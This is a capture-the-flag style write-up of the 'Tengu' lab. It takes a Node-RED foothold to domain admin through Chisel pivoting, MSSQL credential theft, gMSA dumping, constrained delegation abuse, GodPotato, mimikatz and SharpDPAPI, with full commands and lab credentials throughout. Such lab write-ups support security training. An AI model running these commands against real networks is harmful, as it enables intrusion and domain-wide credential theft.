 
![](Tengu_Cover.png)


## INFO

```
Machine 0x1
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x2
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x3
PORT     STATE SERVICE
22/tcp     open  ssh
1880/tcp   open  vsat-control
```

```
└─# crackmapexec rdp ip_
RDP         10.10.243.149   3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)
RDP         10.10.243.150   3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
```


Ok , The scenario is DC and SQL only got RDP port accessible from external network . And 3rd machine is linux with 1880 http and ssh port opened.


![](Node_Red.png)

Its Node-Red  ! ```Node-RED is a programming tool for wiring together hardware devices, APIs and online services in new and interesting ways. It provides a browser-based editor that makes it easy to wire together flows using the wide range of nodes in the palette that can be deployed to its runtime in a single-click.```


## NODE_RED


![](Rce_Node.png)



After some enumeration , found some credentials , config files . We can decrypt those  ! [Blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

ChatGpt Made a cool script to decrypt the creds , Copy that to the victim machine.


![](Decrypt_Creds.png)

```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}nodered_
```

Now , we need to enumerate the network , some ports from the DC and SQL might only be accessible via the internal network . 


Upload Chisel to the machine , and start the reverse socks proxy !


``` Attacker
└─# ./chisel_ server --port 443 --reverse
```

```Victim
$ ./chisel_ client 10.8.0.148:443 R:socks
```


```
└─# proxychains -q impacket-mssqlclient tengu.vl/nodered_connector:DreamPuppyOverall25@10.10.250.86
```

![](Mssql_Access.png)


```
use Demo

SELECT * FROM demo.INFORMATION_SCHEMA.TABLES;

select * from Users;
```


![](Mssql_Creds.png)


![](Crak_Station.png)

Cool ! Its the domain user account ! Lets enumerate AD


```
└─# proxychains bloodhound-python --username t2_m.winters --password Tengu123 --domain tengu.vl --nameserver 10.10.250.85 --domain-controller DC.tengu.vl --collectionmethod all --zip
```


```
└─# ssh t2_m.winters@tengu.vl@10.10.250.87
```

t2_m.winters is member of linux_admin group. So its obvious we are root level user.


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .


![](Decode_KeyTab.png)


Its the machine account hash NODERED$ . 


## SQL_SERVER


![](Node_Red_Privilege.png)

Now , That's cool. NODERED$ can read gmsa password . We gonna use this tool /  [script](https://github.com/micahvandeusen/gMSADumper)

```
└─# proxychains python gMSADumper.py -u 'NODERED$' -p 'd4210ee2db0c03aa3611c9ef8a4dbf49:d4210ee2db0c03aa3611c9ef8a4dbf49' -d tengu.vl -l dc.tengu.vl
```


![](../SENDAI/GMSA_CREDS.png)

```
gMSA01$:::fb7788e6bfa32c568a9dba5490c49575
```



![](Allowed_To_Delegate.png)

Now , GMSA01$ is allowed to delegate to the SQL_ADMINS group and SQL.TENGU.VL computer. Lets abuse this.

![](Delegate_Allowed.png)



Impersonation administrator didnt worked, So we impersonated T1_M.WINTERS , who is member of SQL_Admins.

```
└─# proxychains -q impacket-getST -spn MSSQLSvc/SQL.tengu.vl -impersonate 'T1_M.WINTERS' -altservice cifs -hashes :fb7788e6bfa32c568a9dba5490c49575 'tengu.vl/gMSA01$' -dc-ip 10.10.172.245
```

![](M.Winters_Ccache.png)

```
└─# export KRB5CCNAME=T1_M.WINTERS@cifs_SQL.tengu.vl@TENGU.VL.ccache 
```

Lets login to the sql_server .

```
└─# proxychains -q impacket-mssqlclient -k sql.tengu.vl
```

We are admin and can run system commands , So lets get reverse shell and impersonate cause we got access via the sql server.


![](Cmd_Shell.png)


![](Privilge_SQL.png)

Now , We gonna privilege access with  [God Potato exploit !](https://github.com/BeichenDream/GodPotato)


Get Reverse shell as nt/authority !


![](SQL_Rooted.png)


Lets upload mimikatz and do some post-enumeration !


```
└─# proxychains -q crackmapexec smb 10.10.172.246 -u administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth
```


## DOMAIN_ADMIN

We found that , c.fowler has recently logged-into this machine , and also a process running , So we can run  [sharp_dpapi](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) to gain his credentials . 

```
PS C:\admin> .\SharpDPAPI.exe machinetriage /showall
```

![](Domain_Admin_Hound.png)



```
└─# proxychains evil-winrm -i 10.10.172.245 -u T0_c.fowler -p UntrimmedDisplaceModify25
```

This account is restricted to auth. with NTLM . Why not use kerberos authentication.


```
└─# proxychains impacket-getST -spn cifs/dc.tengu.vl tengu.vl/T0_c.fowler:UntrimmedDisplaceModify25 -dc-ip 10.10.172.245

└─# export KRB5CCNAME=T0_c.fowler@cifs_dc.tengu.vl@TENGU.VL.ccache 
```

```
└─# proxychains impacket-smbexec -k -no-pass dc.tengu.vl
```


![](Domain_Admin_Hound.png)

